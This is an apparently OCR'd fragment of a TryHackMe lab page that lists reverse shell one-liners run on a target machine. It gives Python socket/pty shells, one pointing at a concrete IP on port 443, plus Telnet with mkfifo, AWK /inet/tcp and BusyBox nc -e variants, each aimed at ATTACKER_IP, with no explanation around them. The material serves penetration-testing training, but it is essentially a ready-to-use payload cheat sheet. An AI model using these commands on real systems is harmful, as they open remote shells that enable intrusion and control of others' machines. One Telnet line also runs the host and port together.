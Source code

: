 
**Python Reverse Shell Using the subprocess Module**
```shell-session
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

**Short Python Reverse Shell**
```shell-session
target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

#### Others

**Telnet**
```shell-session
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

**AWK**
```shell-session
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

**BusyBox**
```shell-session
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```
